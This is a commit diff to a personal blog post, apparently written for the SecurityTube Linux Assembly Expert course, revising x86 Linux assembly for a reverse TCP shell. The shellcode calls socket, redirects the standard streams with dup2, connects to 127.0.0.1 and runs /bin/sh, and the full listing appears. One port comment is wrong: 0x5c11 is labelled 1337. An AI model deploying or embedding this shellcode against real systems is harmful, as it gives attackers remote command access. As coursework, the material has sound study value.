

Before and after one commit to Minfanger101/sm00v.github.io, a Jekyll site: the page built from _posts/2019-10-25-assignment_2.md, in a window 1280 px wide and 1400 px high, scrolled down 4956 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
blog update

````diff
--- a/_posts/2019-10-25-assignment_2.md
+++ b/_posts/2019-10-25-assignment_2.md
@@ -99,10 +99,10 @@ global _start	; Standard start
 section .text	;
 _start:		;
 
+xor eax, eax	;
 xor ebx, ebx	; Zero out registers before usage to avoid a logic error
 xor ecx, ecx	;
 xor edx, edx	;
-mul cx		; ax = ax * cx (0)
 
 ;int socketcall(int call, unsigned long *args)
 ;*args: (int domain, int type, int protocol)
@@ -138,14 +138,17 @@ We can reuse the `dup2` code from our bind shell because all were doing is redir
 ;oldfd = previous sockfd value returned by socket
 ;newfd = 0, 1, 2 iteratively (stdin, stdout, stderr)
 
-xchg ebx, eax	; swap oldfd into ebx (should be 0x3)
-pop ecx		; pop 0x2 from socket call into ecx
+xchg ebx, eax   ; swap oldfd into ebx (should be 0x3)
+xor ecx, ecx    ; clear eax
+mov cl, 3       ; 3 file descriptors (stdin, stdout, stderr)
 
-sockfd_func:	; create a function to reproduce the same actions
-mov al, 0x3F	; dup2 call
-int 0x80	; interrupt
-dec cl		; decrement ecx to 2 then 1 then 0
-jnz sockfd_func ; loop back to sockfd_func if not zero
+dup_descriptors:
+dec cl  	; hack for loop to work with values 2,1,0 instead of 3,2,1
+mul edx 	; zero out eax
+mov al, 0x3f	;
+int 0x80 	; dup2 stdin
+inc cl  	; hack for loop to work with values 2,1,0 instead of 3,2,1
+loop dup_descriptors
 ```
 
 ## Connect
@@ -167,23 +170,22 @@ jnz sockfd_func ; loop back to sockfd_func if not zero
 ;addrlen = 0x10 (16/sizeof(sockaddr_in))
 ;
 
-mov al 0x66	    ; socketcall wrapper
-		    ; bl is already 0x3 (connect) from sockfd
-
+mov al, 0x66        ; socketcall wrapper
+mov bl, 0x3         ; move 3 into ebx
 mov edi, 0xffffffff ; 255.255.255.255
 mov ecx, 0xfeffff80 ; 128.255.255.254
 xor ecx, edi        ; 0x0100007f = 127.0.0.1
 
-push ecx	    ; sin_addr.s_addr 127.0.0.1
-push word 0x0539    ; sin_port 1337
-push word 0x0002    ; sin_family 0x2
-mov ecx, esp	    ; move connect *args to ecx. this also points to IP Socket Address Struct
+push ecx            ; sin_addr.s_addr 127.0.0.1
+push word 0x5c11    ; sin_port 1337
+push word 0x02      ; sin_family 0x2
+mov ecx, esp        ; move connect *args to ecx. this also points to IP Socket Address Struct
 
-push 0x10	    ; addrlen (socket)
-push esp	    ; pointer to IP Struct
-push bl	  	    ; sockfd
-
-int 0x80	    ; interrupt
+push 0x10           ; addrlen (socket)
+push ecx            ; pointer to IP Struct
+push ebx            ; sockfd
+mov ecx, esp        ; move esp pointer into ecx
+int 0x80            ; interrupt
 ```
 
 ## Execve
@@ -199,13 +201,14 @@ int 0x80	    ; interrupt
 ; *envp = NULL
 ;
 
-push edx	    	; delimiting NULL for pathname; EDX is NULL for envp[]
+push edx                ; delimiting NULL for pathname; EDX is NULL for envp[]
 push dword 0x68732f2f   ; push / / s h
 push dword 0x6e69622f   ; push / b i n
 mov ebx, esp            ; Store pointer to "/bin/sh" in ebx
-push ecx                ; Push NULL
+push edx                ; Push NULL
 push ebx                ; Push *filename
 mov ecx, esp            ; Store memory address pointing to memory address of "/bin/sh"
+mul edx                 ; clear eax
 mov al, 0xb             ; execve call
 int 0x80                ; interrupt
 ```
@@ -217,63 +220,63 @@ global _start   ; Standard start
 section .text   ;
 _start:         ;
 
-	;init
-	xor ebx, ebx    ; Zero out registers before usage to avoid a logic error
-	xor ecx, ecx    ;
-	xor edx, edx    ;
-	mul cx          ; ax = ax * cx (0)
+        ;init
+        xor eax, eax
+        xor ebx, ebx    ; Zero out registers before usage to avoid a logic error
+        xor ecx, ecx    ;
+        xor edx, edx    ;
 
-	;socket
-	push ebx        ; push 0x0
-	push 0x1        ; 1 = SOCK_STREAM
-	push 0x2        ; 2 = AF_INET
-	mov al, 0x66    ; socketcall syscall
-	mov bl, 0x1     ; sys_socket = 1
-	mov ecx, esp    ; *args pointer
-	int 0x80        ; interrupt
+        ;socket
+        push ebx        ; push 0x0
+        push 0x1        ; 1 = SOCK_STREAM
+        push 0x2        ; 2 = AF_INET
+        mov al, 0x66    ; socketcall syscall
+        mov bl, 0x1     ; sys_socket = 1
+        mov ecx, esp    ; *args pointer
+        int 0x80        ; interrupt
 
-	;dup2
-	xchg ebx, eax   ; swap oldfd into ebx (should be 0x3)
-	xor ecx, ecx    ; clear eax
-	mov cl, 3 	; 3 file descriptors (stdin, stdout, stderr)
+        ;dup2
+        xchg ebx, eax   ; swap oldfd into ebx (should be 0x3)
+        xor ecx, ecx    ; clear eax
+        mov cl, 3       ; 3 file descriptors (stdin, stdout, stderr)
 
-	dup_descriptors:
-		dec cl  ; hack for loop to work with values 2,1,0 instead of 3,2,1
-		mul edx ; zero out eax
-		mov al, 0x3f
-		int 0x80 ; dup2 stdin
-		inc cl  ; hack for loop to work with values 2,1,0 instead of 3,2,1
-		loop dup_descriptors
+        dup_descriptors:
+                dec cl  ; hack for loop to work with values 2,1,0 instead of 3,2,1
+                mul edx ; zero out eax
+                mov al, 0x3f
+                int 0x80 ; dup2 stdin
+                inc cl  ; hack for loop to work with values 2,1,0 instead of 3,2,1
+                loop dup_descriptors
 
-	;connect
-	mov al, 0x66        ; socketcall wrapper
-	mov ebx, 0x3	    ; move 3 into ebx
-	mov edi, 0xffffffff ; 255.255.255.255
-	mov ecx, 0xfeffff80 ; 128.255.255.254
-	xor ecx, edi        ; 0x0100007f = 127.0.0.1
+        ;connect
+        mov al, 0x66        ; socketcall wrapper
+        mov bl, 0x3         ; move 3 into ebx
+        mov edi, 0xffffffff ; 255.255.255.255
+        mov ecx, 0xfeffff80 ; 128.255.255.254
+        xor ecx, edi        ; 0x0100007f = 127.0.0.1
 
-	push ecx            ; sin_addr.s_addr 127.0.0.1
-	push word 0x5c11    ; sin_port 1337
-	push word 0x02      ; sin_family 0x2
-	mov ecx, esp        ; move connect *args to ecx. this also points to IP Socket Address Struct
+        push ecx            ; sin_addr.s_addr 127.0.0.1
+        push word 0x5c11    ; sin_port 1337
+        push word 0x02      ; sin_family 0x2
+        mov ecx, esp        ; move connect *args to ecx. this also points to IP Socket Address Struct
 
-	push 0x10           ; addrlen (socket)
-	push ecx            ; pointer to IP Struct
-	push ebx            ; sockfd
-	mov ecx, esp	    ; move esp pointer into ecx
-	int 0x80            ; interrupt
+        push 0x10           ; addrlen (socket)
+        push ecx            ; pointer to IP Struct
+        push ebx            ; sockfd
+        mov ecx, esp        ; move esp pointer into ecx
+        int 0x80            ; interrupt
 
-	;execve
-	push edx                ; delimiting NULL for pathname; EDX is NULL for envp[]
-	push dword 0x68732f2f   ; push / / s h
-	push dword 0x6e69622f   ; push / b i n
-	mov ebx, esp            ; Store pointer to "/bin/sh" in ebx
-	push edx                ; Push NULL
-	push ebx                ; Push *filename
-	mov ecx, esp            ; Store memory address pointing to memory address of "/bin/sh"
-	mul edx			; clear eax
-	mov al, 0xb             ; execve call
-	int 0x80                ; interrupt
+        ;execve
+        push edx                ; delimiting NULL for pathname; EDX is NULL for envp[]
+        push dword 0x68732f2f   ; push / / s h
+        push dword 0x6e69622f   ; push / b i n
+        mov ebx, esp            ; Store pointer to "/bin/sh" in ebx
+        push edx                ; Push NULL
+        push ebx                ; Push *filename
+        mov ecx, esp            ; Store memory address pointing to memory address of "/bin/sh"
+        mul edx                 ; clear eax
+        mov al, 0xb             ; execve call
+        int 0x80                ; interrupt
 ```
 
 _This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_
````
